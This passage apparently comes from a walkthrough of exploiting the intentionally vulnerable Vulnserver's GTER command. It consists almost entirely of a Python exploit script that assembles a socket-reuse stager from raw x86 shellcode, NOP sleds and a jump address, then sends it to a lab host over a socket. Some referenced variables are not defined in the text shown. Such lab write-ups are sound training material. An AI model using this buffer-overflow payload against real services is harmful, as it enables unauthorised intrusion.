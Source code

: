 ```c
buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

get_file_descriptor=b""
get_file_descriptor+=b"\x8b\x0b"
get_file_descriptor+=b"\x51"

payload=b""
payload+=b"\x90"*40
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=buffer_size
payload+=buffer_pointer
payload+=get_file_descriptor
payload+=b"\x90"*(100-len(payload))
payload+=b"\xcc"
payload+=b"\x90"*50
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 socket-reuse-stager.py
```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-stager-1.png">
</div>
